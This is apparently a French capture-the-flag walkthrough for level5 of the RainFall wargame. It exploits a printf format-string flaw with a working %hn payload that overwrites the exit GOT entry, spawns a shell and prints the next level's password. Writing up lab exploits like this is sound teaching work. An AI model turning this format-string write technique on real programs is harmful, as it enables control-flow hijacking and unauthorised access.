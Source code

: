 Nous remarquons que le programme utilise un fgets, puis met la sortie de fgets en premier argument du printf, ce qui est une faille de sécurité. Nous pouvons mettre une valeur de notre choix à certaines adresses, grâce à l'utilisation du flag %n.

L'assembleur nous montre l'adresse de la variable global qui contient l'adresse de exit, qui est linké dynamiquement.

```asm
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```

Nous recherchons l'adresse de début du buffer à l'aide de printf.

```bash
level5@RainFall:~$ python -c 'print "BBBB" + 15 * "%p."' | ./level5 
aaaa0x200.0xb7fd1ac0.0xb7ff37d0.0x42424242.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.
```

L'adresse de la fonction "o" est `080484a4`. On calcule la partie haute/basse de l'adresse afin de la mettre dans la variable de linkage de exit.

```python
>>> 0x080484a4 >> 16
2052
>>> 0x080484a4 & 0xFFFF
33956
```

Ensuite, il nous suffit de stipuler l'adresse de la variable que l'on veut modifier, ainsi que son offset dans la stack et on remplit la partie haute de la variable afin d'y mettre la valeur de 2052. Et la partie basse de la variable, à la valeur de 33956.

```bash
level5@RainFall:~$ (python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"';cat) | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
